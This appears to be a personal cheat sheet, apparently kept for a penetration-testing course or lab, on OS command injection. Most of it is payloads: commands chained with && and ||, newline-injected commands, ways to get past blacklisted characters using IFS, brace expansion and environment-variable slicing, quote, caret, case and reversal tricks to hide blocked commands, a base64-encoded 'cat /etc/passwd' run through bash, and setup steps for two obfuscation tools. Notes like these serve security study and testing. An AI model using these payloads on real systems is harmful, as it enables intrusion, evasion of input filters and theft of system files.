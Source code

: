 ![[Pasted image 20250415174021.png]]
![[Pasted image 20250415174756.png]]

**AND (&&) Operator** - `ping -c 1 127.0.0.1 && whoami` : This will execute both the commands.
**OR (||) Operator** - `ping -c 1 127.0.0.1 || whoami` : This runs second command only if the first commands fail to execute
![[Pasted image 20250416101227.png]]

**Check for Blacklisted Characters :**  A web application may have a list of blacklisted characters, and if the command contains them, it would deny the request. 

## Bypassing Blacklisted Characters
- Spaces - `127.0.0.1%0awhoami
- Use Tabs - `127.0.0.1%0a%09`
- Use IFS - `127.0.0.1%0a${IFS}`
- Using Brace Expansions - `127.0.0.1%0a{ls,-la}`
- `LINUX` If `/` is blacklisted then we can use something like - `${PATH:0:1}`, this prints the same output
-  `LINUX` If `;` is blacklisted then we can use something like - `${LS_COLORS:10:1}`
- `WINDOWS` If `/` is blacklisted then we can use something like - `echo %HOMEPATH:~6,-11%`

## Bypassing Blacklisted Commands
- If a command like `whoami` is blacklisted, then for `BASH` or `POWERSHELL` we can use - `w'h'o'am'i`
- If a command like `whoami` is blacklisted and it's confirmed that it is `LINUX BASH`, then we can use- `who$@ami`  or  `w\ho\am\i`
- If a command like `whoami` is blacklisted and it's confirmed that it is `WINDOWS`, then we can use - `who^ami`
- We can use Case Manipulation - `WhOaMi`
- `$(a="WhOaMi";printf %s "${a,,}")`
- `LINUX` Reversed Command - `$(rev<<<'imaohw')`
- `POWERSHELL` Reversed Command - `iex "$('imaohw'[-1..-20] -join '')"`
- Encode the Command using - `echo -n 'cat /etc/passwd | grep 33' | base64` and then use the payload as : `bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)`

## Bashfuscator (Linux)
Installing / Downloading the tool :
```shell-session
git clone https://github.com/Bashfuscator/Bashfuscator
cd Bashfuscator
pip3 install setuptools==65
python3 setup.py install --user
```

To obfuscate the command : `./bashfuscator -c 'cat /etc/passwd'` or `./bashfuscator -c 'cat /etc/passwd' -s 1 -t 1 --no-mangling --layers 1`

## DOSfuscation
```powershell-session
git clone https://github.com/danielbohannon/Invoke-DOSfuscation.git
cd Invoke-DOSfuscation
Import-Module .\Invoke-DOSfuscation.psd1
Invoke-DOSfuscation
help
```

